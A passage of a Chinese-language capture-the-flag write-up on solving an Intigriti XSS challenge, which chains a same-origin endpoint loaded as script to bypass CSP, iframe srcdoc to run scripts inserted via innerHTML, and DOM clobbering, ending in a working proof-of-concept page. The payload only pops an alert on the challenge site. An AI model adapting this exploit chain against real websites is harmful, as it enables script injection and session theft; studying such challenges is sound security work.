第一行是註解，`/*` 之後也都是註解，所以這一整段其實就是 `top.alert(document.domain);` 的意思。

不過這邊可以注意的是 htmledit.php 的 content type 不會變，依然還是 `text/html`，之所以可以把它當作 JS 引入，是因為同源的關係。如果你是把一個不同源的 HTML 當作 JS 引入，就會被 [CORB](https://www.chromium.org/Home/chromium-security/corb-for-developers) 給擋下來。

做到這邊，我們就可以讓 data 是 `<script src="https://challenge-0721.intigriti.io/htmledit.php?code=1;%0atop.alert(document.domain);/*"></script>`

這樣就會執行到 `text_tag.innerHTML = data`，成功在頁面上放進去 script 還繞過了 CSP，完美！

但可惜的是，還差一點點...

## 第八關：執行動態插入的 script

就在我以為要過關的時候，卻發現我的 script 怎樣都不會執行。後來用[關鍵字](https://stackoverflow.com/questions/1197575/can-scripts-be-inserted-with-innerhtml)去查，才發現如果是用 innerHTML 插入 script 標籤，插入之後是不會去執行的。

我試著用 `innerhtml import script` 或是 `innerhtml script run` 之類的關鍵字去找解法但都沒找到。

最後，我是突然想到可以試試看 `<iframe srcdoc="...">`，有種死馬當活馬醫的感覺，反正就試試看這樣行不行，沒有損失。

結果沒想到就可以了。直接 assign 給 innerHTML 不行，但如果內容是：`<iframe srcdoc="<script src='...'></script>"` 就可以，就會直接載入 script。

## 最後解法

最後再補充一件事情，我要送出答案之前發現我的答案在 Firefox 上面不能跑，原因是這段程式碼：

``` html
<a id="users"></a>
<a id="users" name="admin" href="a"></a>
```

在 Chrome 上 `window.users` 會是 HTMLCollection，但在 Firefox 上面只會拿到一個 a 元素，而 `window.users.admin` 也就是 undefined。

但這問題不大，只要多一層 iframe 就可以搞定：

``` html
<iframe name="store" srcdoc="
  <iframe srcdoc='<a id=admin href=ftp://a:a@a#></a>' name=users>
">
</iframe>
```

我最後的答案長這樣：

``` html
<!DOCTYPE html>

<html lang="en">
<head>
  <meta charset="utf-8">
  <title>XSS POC</title>  
</head>

<body>
  <script>
    const htmlUrl = 'https://challenge-0721.intigriti.io/htmledit.php?code='
    const exploitSrc = '/analytics/..%2fhtmledit.php?code=1;%0atop.alert(document.domain);/*'
    const insertPayload=`<iframe srcdoc="<script src=${exploitSrc}><\/script>">`
    const payload = `
      <a id="DEV"></a>
      <iframe name="store" srcdoc="
        <iframe srcdoc='<a id=admin href=ftp://a:a@a#${escape(insertPayload)}></a>' name=users>
      ">
      </iframe>
      <iframe name="iframeConsole" src="https://challenge-0721.intigriti.io/console.php"></iframe>
    `
    var win = window.open(htmlUrl + encodeURIComponent(payload))
```